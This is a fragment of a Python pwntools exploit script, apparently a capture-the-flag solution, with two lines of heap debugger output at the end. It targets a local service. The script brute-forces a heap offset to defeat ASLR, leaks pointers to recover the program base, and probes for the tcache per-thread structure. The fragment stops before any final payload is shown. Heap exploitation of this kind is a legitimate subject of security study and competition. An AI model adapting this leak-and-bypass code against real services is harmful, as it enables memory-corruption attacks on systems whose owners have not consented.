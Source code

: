 ```python
    else:
        r = remote("localhost", 5000)

    return r


def main():
    def brute_heap_offset():
        idx = 0
        with log.progress('Bruting') as p:
            while True:
                try:
                    idx += 1
                    p.status("attempt %i", idx)
                    r = conn()
                    r.recvuntil(b"exception")
                    trial_heap_offset = 0x1995fe0
                    # trial_heap_offset = 0x1000 # lol testing without aslr
                    
                    r.sendline(f"1 {trial_heap_offset}".encode())
                    
                    r.recvuntil(b"exception")
                    r.sendline(f"1 {trial_heap_offset}".encode())
                    p.success()
                    return (r, trial_heap_offset >> 12 << 12)
                except EOFError:
                    with context.local(log_level='error'): r.close()


    r, heap_page = brute_heap_offset()


    def leak_relative_ptr(b):
        for x in range(8):
            r.sendline(f"{b+x} {1+x}".encode())

        for _ in range(8):
            r.readuntil(b"exception:")
        r.readuntil(b"4m")
        r.recvuntil(b"L")
        ptr = u64(r.read(6).ljust(8,b"\x00"))
        for x in range(8):
            r.sendline(f"{b+x} {1+x}".encode())

        for _ in range(8):
            r.readuntil(b"exception:")
        return ptr


    __dso_handle = leak_relative_ptr(-24)
    e.address =  __dso_handle - e.symbols['__dso_handle']
    log.info(f'__dso_handle = {hex(__dso_handle)}')
    log.info(f"program base = {hex(e.address)}")
    log.info(f"offset to a heap page = {hex(heap_page)}")
    maybe_tcache_perthread = heap_page + 8 - 0x20
    r.readuntil(b"exception:")
    while True:
        r.sendline(f"1 {maybe_tcache_perthread}".encode())
        r.recvuntil(b"L")
        if r.recv(1) == b'\x91':
            r.readuntil(b"exception:")
            break
        r.readuntil(b"exception:")
```

[heap]: 0x0000555555564ac0  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
[heap]: 0x0000555555564ac8  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000